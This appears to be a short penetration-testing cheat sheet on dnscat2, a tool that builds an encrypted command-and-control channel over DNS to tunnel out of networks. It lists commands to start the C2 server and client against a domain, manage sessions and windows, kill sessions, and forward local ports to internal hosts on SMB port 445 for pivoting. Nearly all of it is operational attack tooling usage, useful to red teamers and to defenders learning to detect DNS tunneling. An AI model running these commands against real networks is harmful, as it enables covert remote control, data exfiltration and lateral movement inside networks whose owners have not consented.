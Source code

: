 > This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.


#DNS_Tunneling #DNS #Tunneling

# Usage

Starting the `dnscat2` server
```bash
dnscat2-server hentai.corp
```

Run `dnscat2` client
```bash
./dnscat hentai.corp
```

## Interacting with the dnscat2 client from the dnscat2 server 

Show list of commands
```dnscat2
?
```

Show information on command E.g., listen
```dnscat2
listen --help
```

List all the active windows/sessions
```dnscat2
windows
```
```dnscat2
sessions
```

Interact with a command window/session
```dnscat2
window -i 1
```

Return to the main session
```dnscat2
suspend
```
```dnscat2
CTRL + Z
```

Kill a session
```dnscat2
kill 2
```

#Port_Forwarding 

Setting up a port forward from the loopback interface of current machine port 4455 to 172.16.169.11 port 445
```dnscat2
listen 127.0.0.1:4455 172.16.169.11:445
```

Setting up a port forward from the all interfaces of current machine port 4456 to 172.16.169.123 port 445
```dnscat2
listen 0.0.0.0:4456 172.16.169.123:445
```